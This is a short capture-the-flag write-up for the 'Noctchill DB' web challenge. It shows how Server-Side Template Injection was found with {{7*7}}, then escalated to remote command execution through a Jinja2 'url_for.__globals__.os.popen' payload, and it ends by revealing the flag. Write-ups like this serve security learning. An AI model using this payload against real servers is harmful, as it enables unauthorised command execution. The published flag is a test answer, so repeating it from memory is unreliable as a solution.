

# Noctchill DB
> Checkout my Noctchill Database Page.

## About the Challenge
Given a website along with its source code (You can get the source code [here](web_noctchill_db.zip)), when we open the website we will be met with shiny color members :D.


And then when I checking the code, apparently there is no filter in the idol detail endpoint section which can result in Server-Side Template Injection (SSTI)




## How to Solve?
First I test the website using the payload as below

```
http://103.152.242.116:6712/{{7*7}}
```

And it turns out that the output is `49` which means vulnerable to SSTI


After testing a lot of payloads and reading other CTF event writeups, I found the final payload to perform RCE on the server

```
http://103.152.242.116:6712/{{url_for.__globals__.os.__dict__.popen(request.args.file).read()}}?file=ls /
```


Open the `flag_68b329da98.txt` file to get the flag

```
ARA2023{its_n0t_th4t_h4rd_r1ghT??}
```